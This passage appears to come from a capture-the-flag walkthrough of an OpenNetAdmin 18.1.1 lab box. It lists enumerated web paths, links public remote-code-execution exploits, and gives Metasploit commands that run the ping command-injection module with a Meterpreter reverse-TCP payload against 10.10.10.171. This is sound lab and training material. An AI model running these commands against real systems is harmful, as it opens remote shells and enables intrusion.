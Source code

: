 		/ona/include/adodb5/datadict/datadict-mysql.inc.php
		/ona/include/adodb5/lang/adodb-eo.inc.php
		/ona/logout.php
		/ona/config/auth_ldap.config.php
		/ona/shell.php
		
		Files found with a 500 responce:
		
		/ona/include/xajax_drag/drag.inc.php
		/ona/include/xajax_suggest/suggest.inc.php
		/ona/modules/ona/block.inc.php
		/ona/include/functions_db.inc.php
		/ona/modules/ona/dhcp_server.inc.php
		/ona/include/xajax_setup.inc.php
		/ona/modules/ona/domain.inc.php
		/ona/modules/ona/domain_server.inc.php
		/ona/include/auth/ldap.class.php
		/ona/modules/ona/configuration.inc.php
		/ona/include/xajax_webwin/webwin.inc.php
		/ona/modules/ona/custom_attribute.inc.php
		/ona/modules/ona/message.inc.php
		/ona/modules/ona/subnet.inc.php
		/ona/modules/ona/dhcp_entry.inc.php
		/ona/modules/ona/dhcp_failover.inc.php
		/ona/modules/ona/dhcp_pool.inc.php
		/ona/plugins/ona_nmap_scans/install.php
		/ona/plugins/ona_nmap_scans/ona_nmap_scans.inc.php
		/ona/include/adodb/datadict/datadict-firebird.inc.php
		/ona/include/adodb5/datadict/datadict-firebird.inc.php
		/ona/config/config.inc.php
		
		
		--------------------------------
		```
		![Screenshot-20200509000509-1226x432.png](images/d313d186a2cf43538031c27912670cba.png)
		
	3. Search for `opennetadmin v18.1.1 exploit` finds [OpenNetAdmin 18.1.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47691) and [OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)](https://www.exploit-db.com/exploits/47772) and [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/opennetadmin_ping_cmd_injection)
	4. Metasploit
		```
		sudo msfconsole
		use exploit/unix/webapp/opennetadmin_ping_cmd_injection
		set rhosts 10.10.10.171
		set lhost tun0
		set lport 56762
		set payload linux/x86/meterpreter_reverse_tcp
		run
		```